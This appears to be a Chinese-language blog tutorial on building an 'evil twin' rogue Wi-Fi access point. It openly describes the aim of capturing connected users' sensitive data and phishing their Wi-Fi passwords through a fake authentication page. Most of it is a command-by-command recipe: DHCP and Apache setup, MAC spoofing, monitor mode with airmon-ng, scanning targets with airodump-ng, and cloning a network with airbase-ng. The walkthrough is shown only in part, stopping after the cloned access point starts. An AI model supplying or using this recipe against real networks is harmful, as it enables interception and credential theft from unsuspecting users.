

# 山寨wifi接入点

有一种攻击叫evil twin无线接入攻击，通过将无线网络设置伪装成合法的无线网络名称来实施。通常，双胞胎无线接入点总是缺乏安全特性的，对于用户来说它就像一个正常的wifi热点。

不法分子用这种方法可以截获连接到这个"wifi"用户的敏感数据，也能骗取Wifi认证密码，附带各种恶搞。

* [在Wifi网络中嗅探明文密码(HTTP POST请求、POP等)](2016-4-18-wireshark-hack-http-post-password.md)

### 安装isc-dhcp-server

这是一个dhcp服务程序，为连接到wifi的用户分配ip。

```shell
# apt install isc-dhcp-server
```

### 配置Apache2

在用户连接到wifi之后，负责发送假的认证网页。

创建网站目录：

```shell
# mkdir /var/www/public_html
```

编辑：

```shell
# vim /etc/apache2/mods-available/userdir.conf
```



重启Apache：

```shell
# systemctl restart apache2
```

### 配置isc-dhcp-server

```shell
# vim /etc/dhcp/dhcpd.conf
```

在文件中添加：

```
authoritative;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.1.0 netmask 255.255.255.0
{
        option subnet-mask 255.255.255.0;
        option broadcast-address 192.168.1.255;
        option routers 192.168.1.1;
        option domain-name-servers 8.8.8.8;
        range 192.168.1.1 192.168.1.100;
}
```

### 解决airmon-ng和Network Manager的冲突

```shell
# vim /etc/NetworkManager/NetworkManager.conf
```

在文件尾添加：

```
[keyfile]
unmanaged-devices=interface-name:wlan0mon;interface-name:wlan1mon;interface-name:wlan2mon;interface-name:wlan3mon;interface-name:wlan4mon;interface-name:wlan5mon;interface-name:wlan6mon;interface-name:wlan7mon;interface-name:wlan8mon;interface-name:wlan9mon;interface-name:wlan10mon;interface-name:wlan11mon;interface-name:wlan12mon
```

### 无线网卡的监控模式

```shell
# ifconfig wlan0 down    # 关闭无线网卡
# macchanger -r wlan0    # 更改mac地址；随机
# airmon-ng check kill 
# airmon-ng start wlan0  # 启动无线网卡的监控模式
```

找到一个要山寨的wifi热点

```shell
# airodump-ng wlan0mon
```

记住AP名和频道。

### 山寨一个wifi

```shell
# airbase-ng  -e "test" -c 6 wlan0mon
```

ifconfig at0 


